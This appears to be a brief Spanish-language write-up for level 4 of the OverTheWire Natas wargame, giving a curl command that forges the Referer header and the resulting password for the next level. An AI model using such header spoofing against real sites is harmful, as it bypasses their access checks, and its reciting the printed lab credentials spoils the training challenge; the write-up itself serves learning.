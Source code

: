 # Natas Nivel 4

**URL:** http://natas4.natas.labs.overthewire.org

**Usuario:** natas4

**Solución:** se encontró la contraseña modificando el encabezado HTTP desde la terminal se uso el comando: curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ -H "Referer: http://natas5.natas.labs.overthewire.org/" http://natas4.natas.labs.overthewire.org/

**Contraseña:** 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
